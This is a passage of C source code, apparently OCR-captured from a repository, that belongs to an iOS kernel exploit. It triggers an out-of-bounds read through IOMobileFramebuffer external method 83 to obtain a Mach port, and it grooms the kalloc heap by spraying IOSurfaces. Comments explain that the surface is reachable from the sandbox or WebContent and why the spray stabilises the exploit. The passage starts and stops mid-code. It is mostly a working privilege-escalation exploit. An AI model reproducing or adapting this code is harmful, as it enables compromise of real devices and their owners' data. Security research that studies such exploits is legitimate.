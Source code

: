 ```c
                                    output_scalars, &output_scalars_size,
                                    NULL, NULL);

    if (ret != KERN_SUCCESS) {
        printf("[-] external method 83 failed: %s\n",  mach_error_string(ret));
        return 0;
    }

    // This is the key: you get back a Mach port name (u32) to whatever
    // object was at that OOB slot (ideally an IOSurface you sprayed).
    printf("[*] external method 83 returned: 0x%llx\n", output_scalars[0]);
    return output_scalars[0];
}

// Heap-shape with IOSurfaces so an OOB slot likely contains a pointer to a
// real IOSurface (easier & stabler than a fully fake object).
bool do_spray(void) {
    char data[0x10];
    memset(data, 0x41, sizeof(data)); // Tiny payload for value spraying.

    // Get IOSurfaceRootUserClient (reachable from sandbox/WebContent).
    io_connect_t iosurface_uc = get_iosurface_root_uc();
    if (iosurface_uc == MACH_PORT_NULL) {
        printf("[-] do_spray: failed to allocate new iosurface_uc\n");
        return false;
    }

    // Create many IOSurfaces and use set_value / value spray helpers
    // (Brandon Azad-style) to fan out allocations in kalloc.  ⭐
    int *surface_ids = (int*)malloc(SURFACES_COUNT * sizeof(int));
    for (size_t i = 0; i < SURFACES_COUNT; ++i) {
        surface_ids[i] = create_surface(iosurface_uc);       // s_create_surface
        if (surface_ids[i] <= 0) {
            return false;
        }

        // Spray small values repeatedly: tends to allocate/fill predictable
        // kalloc regions near where the IOMFB table OOB will read from.
        // The “with_gc” flavor forces periodic GC to keep memory moving/packed.
        if (IOSurface_spray_with_gc(iosurface_uc, surface_ids[i],
                                    20, 200,   // rounds, per-round items
                                    data, sizeof(data),
                                    NULL) == false) {
            printf("iosurface spray failed\n");
            return false;
        }
    }
    return true;
}

int main(void) {
    // Ensure we can talk to IOSurfaceRoot (some helpers depend on it).
    io_connect_t iosurface_uc = get_iosurface_root_uc();
    if (iosurface_uc == MACH_PORT_NULL) {
        return 0;
    }

    printf("[*] do spray\n");
    if (do_spray() == false) {
        printf("[-] shape failed, abort\n");
        return 1;
    }
    printf("[*] spray success\n");
```